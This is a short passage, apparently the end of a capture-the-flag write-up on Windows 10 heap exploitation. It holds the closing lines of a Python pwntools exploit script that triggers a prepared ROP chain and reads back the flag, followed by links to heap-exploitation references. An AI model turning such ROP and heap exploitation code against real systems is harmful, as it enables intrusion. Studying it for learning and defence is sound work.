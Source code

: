 ```python
    log.success('ROP gadgets prepared.')

    log.info('Triggering ROP through exit...')

    p.sendline('coffin')

    print(p.recvuntil('}'))

    p.close()

    break
```

[PDBEX]: https://github.com/wbenny/pdbex
[REF1]: https://www.slideshare.net/AngelBoy1/windows-10-nt-heap-exploitation-english-version
[REF2]: https://github.com/peleghd/Windows-10-Exploitation/blob/master/Low_Fragmentation_Heap_(LFH)_Exploitation_-_Windows_10_Userspace_by_Saar_Amar.pdf